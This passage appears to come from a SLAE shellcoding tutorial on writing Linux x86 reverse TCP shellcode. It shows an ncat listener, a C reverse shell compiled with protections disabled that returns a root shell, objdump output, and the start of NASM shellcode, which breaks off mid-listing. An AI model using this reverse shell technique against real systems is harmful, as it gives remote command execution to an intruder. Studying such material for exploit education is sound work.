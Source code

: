 ```c
}
```
  
Let's listen on port 8080:  
```bash
ncat -klvp 8080
Ncat: Version 7.40 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
```
  
Let's connect:  
```bash
gcc -fno-stack-protector -z execstack -o shell_reverse_tcp shell_reverse_tcp.c && ./shell_reverse_tcp

```
   
And we have:   
```bash
ncat -klvp 8080
Ncat: Version 7.40 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 127.0.0.1.
Ncat: Connection from 127.0.0.1:38488.
id
uid=0(root) gid=0(root) groups=0(root)
```
  
So what are the interesting functions:  
```bash
objdump -d ./shell_reverse_tcp -M intel
...
80485d2: e8 79 fe ff ff call 8048450 <connect@plt>
...
```
  
So we have:  
```
socket
connect
dup2
execve
```
  
Let's update our previous shellcode to match our new needs:  
```nasm
; shell_bind_tcp.nasm
; 
; A TCP port bind shellcode
;
; Author: SLAE - 891
;
; You are free to use and/or redistribute it without restriction

global  _start

section .text
_start:

; sockfd = socket(AF_INET, SOCK_STREAM, 0);
; int socketcall(int call, unsigned long *args);
; #define __NR_socketcall   102
; #define SYS_SOCKET        1
    xor ebx,ebx
    mul ebx         ; zero out eax and edx
    mov al, 102     ; __NR_socketcall
```